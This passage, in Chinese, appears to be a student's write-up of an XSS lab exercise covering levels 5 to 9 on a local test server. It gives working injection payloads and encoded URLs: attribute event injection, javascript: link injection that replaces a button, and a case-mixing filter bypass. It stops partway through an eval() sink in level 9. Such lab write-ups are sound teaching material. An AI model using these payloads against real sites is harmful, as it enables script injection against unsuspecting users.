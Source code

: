大师，我悟了，应该用事件！

经过反复尝试，发现 input= 中对input内的特殊字符的转义并不充分，没有处理单引号、等号和括号。使用`' onfocus='alert()`构造URL <http://10.10.17.36:32901/level5.php?input=%27%20onfocus=%27alert()>，当 focus 移至 input box 时攻击成功。

参考文献：[xss 常用标签及绕过姿势总结](https://www.freebuf.com/articles/web/340080.html)

## 第六题

这题也略有难度。经过尝试，input= 对 input 中全部的 "on" 进行了防御性替换，这使得利用onclick、onerror、onfocus等事件进行注入变得不可能。幸运的是，改题目中未对引号等字符进行处理。

然而所有在属性中注入代码的方法都一定要带有字符串“on”吗？答案是否定的。

构造如下内容：

```html
' hidden><a href=javascript:alert()>下一步</a><div class='
```

转义并拼接后得到 URL <http://10.10.17.36:32901/level6.php?input=%27%20hidden%3E%3Ca%20href=javascript:alert()%3E%E4%B8%8B%E4%B8%80%E6%AD%A5%3C/a%3E%3Cdiv%20class=%27>。在用户眼中，原先的按钮被替换为了我们的被注入了脚本的`<a>`元素。用户点击这个写有“下一步”的标签后，攻击成功。

参考文献：[xss 常用标签及绕过姿势总结](https://www.freebuf.com/articles/web/340080.html)

## 第七题

这题的注入点和上一题性质类似，使用如下内容可以攻击：

```html
\' hidden><a href=javascript:alert()>下一步</a><div class=\'
```

转义后得到这个 URL <http://10.10.17.36:32901/level7.php?input=\%27%20hidden%3E%3Ca%20href=javascript:alert()%3E%E4%B8%8B%E4%B8%80%E6%AD%A5%3C/a%3E%3Cdiv%20class=\%27>，用户点击右侧按钮然后点击“下一步”后中招。

## 第八题

这题对关键词的封锁比较全面，不过查阅 XSS 相关教程后发现可以尝试用大小写的方法绕过：

```html
'><scrIpt>alert()</scrIpt><div class='
```

经测试攻击成功。

## 第九题

阅读代码，找到`eval()`：

```html
  <script>
    function submit() {
        var data = {
            input: document.getElementById("submit-input").value
        }
        fetch('back.php', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        })
        .then(response => response.json())
        .then(data => {
          setTimeout(function (){
              eval(data.res);
              document.getElementById("res").innerText = hello;
          }, 100);
```